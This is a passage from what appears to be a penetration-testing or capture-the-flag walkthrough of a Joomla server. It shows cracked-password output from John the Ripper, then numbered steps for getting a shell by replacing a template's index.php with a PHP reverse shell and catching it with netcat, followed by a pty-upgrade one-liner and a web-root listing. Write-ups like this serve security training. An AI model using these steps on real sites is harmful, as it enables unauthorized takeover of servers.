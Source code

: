 ```
of libcuda.so.1 to get passed this issue.
--------------------------------------------------------------------------
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)
1g 0:00:04:15 DONE (2021-12-17 16:55) 0.003910g/s 183.1p/s 183.1c/s 183.1C/s thelma1..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```


From here the /administrator panel of Joomla can be accessed

Steps to gain shell off of Joomla
	1. Create PHP Reverse Shell -> /usr/share/webshells/php/php-reverse-shell
	2. In Joomla go to: Extensions -> Templates -> Templates
	3. Go the the beez3 template, or any available template
	4. Change index.php to the reverse shell
	5. Launch nc reverse shell
	6. Template Preview 
	7. Once the shell is obtained -> $ python -c 'import pty; pty.spawn("/bin/bash")'


The main files that a web server account has access to are /var/www/html

Looking inside /var/www/html

```
bash-4.2$ ls
ls
LICENSE.txt
cli
includes
media
tmp
README.txt
components
index.php
modules
web.config.txt
administrator
configuration.php
language
plugins

--SNIP--

```
